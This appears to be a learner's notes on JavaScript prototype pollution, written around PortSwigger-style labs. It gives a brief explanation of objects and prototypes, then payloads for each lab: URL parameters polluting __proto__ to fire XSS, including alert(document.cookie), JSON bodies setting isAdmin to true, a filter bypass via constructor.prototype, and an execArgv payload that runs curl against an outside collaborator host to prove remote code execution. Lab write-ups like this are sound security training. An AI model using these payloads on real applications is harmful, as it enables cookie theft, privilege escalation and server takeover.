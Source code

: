 ## What is an object in JavaScript?
A JavaScript object is essentially just a collection of `key:value` pairs known as "**properties**". For example, the following object could represent a user:

```js
const user = { 
	username: "wiener", 
	userId: 01234, 
	isAdmin: false 
}
```

You can access the properties of an object by using either dot notation or bracket notation to refer to their respective keys:

```js
user.username // "wiener" 
user['userId'] // 01234
```

As well as data, properties may also contain executable functions. In this case, the function is known as a "method".

```js
const user = { 
	username: "wiener", 
	userId: 01234, 
	exampleMethod: function(){ 
	// do something 
	} 
}
```

The example above is an "**object literal**", which means it was created using curly brace syntax to explicitly declare its properties and their initial values
## The Prototype Chain
![[file-20250607201826002.png]]
# Approach
At first glance, a heavy topic in which, as you develop in it, you begin to capture the main essence. It fires very well with the **DOM-Invader extension**.

Arises, usually, in these JS files: `searchLogger.js`, `searchLoggerAlternative.js` and similar `searchLogger`. 

Enable `DOM Invader` in burp browser and enable prototype pollution.
![image](https://user-images.githubusercontent.com/58632878/224733753-a5baf04e-8eb5-4a04-ad2a-ec5835aa2976.png)

![image](https://user-images.githubusercontent.com/58632878/224734034-90a8cde7-18b1-4e81-8ad1-00d9b455c17f.png)  
## Labs
### 1. DOM XSS via client-side prototype pollution
```js
https://site.com/?__proto__[transport_url]=data:,alert(1)
```

### 2. DOM XSS via an alternative prototype pollution vector
Because of a trailing 1 character in the sink eval we add a `-` character due to invalid **JS** syntax.
```js
https://site.com/?__proto__.sequence=alert(1)-
```

### 3. Client-side prototype pollution via flawed sanitization
Scan gadgets and exploit using the source/sink found.
```js
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
```

### 4. Client-side prototype pollution in third-party libraries
```js
https:/site.com/#__proto__[hitCallback]=alert(document.cookie)
```

### 5. Client-side prototype pollution via browser APIs
```js
https://site.com/?__proto__[value]=data:,alert(1);
```

### 6. Privilege escalation via server-side prototype pollution
![[file-20250608181321416.png]]
```js
Billing and Delivery Address:
"__proto__": {
    "isAdmin":true
}
```

### 7. Detecting server-side prototype pollution without polluted property reflection
![[file-20250608183054510.png]]
```js
"__proto__": {
 "status":555
}
```

### 8. Bypassing flawed input filters for server-side prototype pollution
https://portswigger.net/web-security/prototype-pollution/client-side#bypassing-flawed-key-sanitization
Other garbage values are due to the Burp Scans.
![[file-20250608184914104.png]]
```js
 "constructor":{
"prototype":{
"isAdmin":true
}}
```

### 9. Remote code execution via server-side prototype pollution
![[file-20250608191837659.png]]

![[file-20250608192555043.png]]
After sending the above request trigger the  `maintenance job` and you get a hit to your collaborator ID.
![[file-20250608192741728.png]]
Polling on the setup Collaborator.
![[file-20250608192610562.png]]
Similarly, delete the file from the specified the location.
![[file-20250608192538150.png]]
```js
"__proto__":
{"execArgv": [
  "--eval=require('child_process').execSync('curl https://kmazepmj6dq3jzpk2e4ah7fzuq0ho9cy.oastify.com')"
]}
```

